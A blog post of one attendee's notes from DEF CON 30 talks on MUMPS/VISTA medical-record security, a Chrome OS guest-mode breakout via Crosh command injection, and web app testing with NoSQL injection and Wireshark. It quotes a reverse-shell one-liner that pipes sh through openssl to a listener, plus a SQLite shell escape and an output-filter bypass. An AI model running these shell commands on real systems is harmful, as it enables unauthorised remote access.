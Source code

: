 ```yaml
---
title: DEF CON 30
date: 2022-08-13 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-13-def-con-30.html
author: 100007
---
```


# DEF CON 30

**author:** Nathan Acks  
**date:** 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

- [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

# How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it’s also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there’s no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans’ Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it’s written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are _extremely_ chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn’t think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach’s had trouble getting the VA to talk to them, so disclosure’s still ongoing here.

VISTA is _really_ well-loved by the doctors who use it.

- [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA’d Code)](https://cardboard-iguana.com/log/assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
- [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

# Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google…

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It’s much faster than Hak5’s tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that’s used internally.

If you can get to `dbus` on a Chromebook, you can access _some_ (but not all!) Dev Mode tools (like `ping`).

(I wasn’t able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

- [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](https://cardboard-iguana.com/log/assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
- [Pico Ducky](https://github.com/dbisu/pico-ducky)

# Securing Web Apps

TIL: There is such a thing as NoSQLi, and it’s _way_ easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using “Preferences \> RSA Keys”.

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select “Follow \> TCP Stream, (3) change “Show data as” to “Raw”, and (4) save it off using “Save As”.

- [Securing Web Apps](https://forum.defcon.org/node/241772)
- [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
